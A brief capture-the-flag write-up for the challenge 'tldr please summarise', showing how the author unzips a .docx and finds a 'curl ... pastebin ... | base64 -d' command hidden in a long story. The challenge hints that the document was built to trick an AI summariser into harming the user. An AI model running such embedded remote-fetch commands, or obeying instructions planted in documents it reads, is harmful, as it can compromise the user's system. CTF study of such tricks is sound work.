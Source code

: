 ```yaml
---
title: "tldr please summarise"
date: 2024-07-21
draft: false
# description: ""
tags: ["mics"]
---
```


**Challenge Description:** I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?

**Solving Process:** We're given a file labelled `EmuWar.docx` to download. If we try to use `less` we're told that it may be a binary file, which seems a bit odd

![screenshot of less command on EmuWar.docx](./Assets/less_emu.png) 

Let's use `xxd` combined with `head` to get the [magic numbers](https://en.wikipedia.org/wiki/List_of_file_signatures) of the file to see if the file is actually something else. Looking at the output below and checking Wikipedia, we can see that it's actually a zipped file!

![screenshot of xxd command on EmuWar.docx](./Assets/xxd_emu_head.png) 

Using `unzip EmuWar.docx` we're given a couple of folders and a few files. I went straight to `word/document.xml` and saw what I assumed was a good story (it was too long, so I didn't read). Buried inside were some commands however, specifically `curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d`. What happends if we run it?

![Emu curl strong](./Assets/curl_emu.png) 

**Flag:**`DUCTF{chatgpt_I_n33d_2_3scap3}`
